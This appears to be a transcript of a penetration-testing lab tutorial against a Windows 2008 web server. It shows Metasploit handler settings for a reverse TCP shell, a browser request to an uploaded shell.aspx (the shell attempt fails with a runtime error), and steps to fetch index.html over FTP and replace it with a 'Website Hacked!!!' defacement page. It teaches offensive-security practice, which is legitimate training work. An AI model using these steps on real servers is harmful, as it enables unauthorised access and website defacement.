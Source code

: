 We'll set the payload to the one that we set when generating the payload with msfvenom.

```
set payload windows/shell/reverse_tcp
```

```
set LHOST 10.10.16.2
set LPORT 1234
run
```

And we can now try and execute this via the browser. I'll navigate to the browser.

And we should be able to access shell.aspx. And if it's executed successfully, we should receive a reverse shell on our handler.

```
http://10.0.28.97/shell.aspx
```

We have an error here. And it's a runtime error.

You can also try and generate an asp file itself. But that will not work.

All I'm trying to highlight here is that there are various attack vectors that you can utilize.

So we have not been able to get a reverse shell yet.

From the perspective of a penetratin test and the company that we are performing the pen test for, this is already a security vulnerability and a breach of the system security in that if an attacker would have gained access to the ftp server, and they have not been able to gain a reverse shell, the next step for them would be to deface the website.

Defacing the website just means modifying the web application or downloading client data or information that's stored within this directory.

And in the case of defacing a website, we can just modify index.html to highlight the fact that the web server has been hacked.

```
ftp> get index.html
```

Open up a new tab here or a new terminal.

```
cd Desktop/Win2k8/
ls
vim index.html
```

In a real penetration test, you're obviously not allowed to do that, to modify the application or play around with customer data.

```
<head>
    <style>
        body {
            background-color: red;
        }
    </style>
</head>
<body>
    <h1>Website Hacked!!!</h1>
</body>
```

